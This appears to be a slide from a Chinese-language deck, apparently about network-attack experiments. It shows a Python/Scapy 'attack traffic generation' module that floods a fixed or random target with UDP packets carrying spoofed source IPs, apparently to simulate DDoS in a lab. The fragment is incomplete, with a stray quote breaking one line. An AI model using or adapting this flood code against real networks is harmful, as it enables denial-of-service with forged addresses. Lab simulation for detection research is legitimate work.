

攻击流量产生模块
for i in range (1, 5):
    interface = popen('ifconfig | awk \'/eth0/ {print $1}\'').read()
    #获取本机网卡接口，sendp发包通过该接口实现
    for i in xrange(0, 500):
        if(fixed == True):
            desIp = "10.0.0.64"
        else:
            desIp = generateDestinationIP(start, end)
        packets = Ether() / IP(dst = desIp, src = generateSourceIP(start,end)) / UDP(dport = 1, sport = 80)
        #如果是链路带宽攻击，则设值目标ip地址随机，如果是对主机计算资源攻击，则设值目标ip地址固定
        print(repr(packets))
        sendp(packets, iface = interface.rstrip(), inter = 0.001)
        #发送间隔为0.001秒，用于模拟请求泛洪
    time.sleep (10)
def main(argv):
    #获取启动参数，start，end用于控制生成ip地址的范围，fixed设置目标ip地址是否固定
    try:
        opts, args = getopt.getopt(sys.argv[1:], 's:e:f:', ['start=','end=','fixed=‘])
    except getopt.GetoptError:
        sys.exit(-1)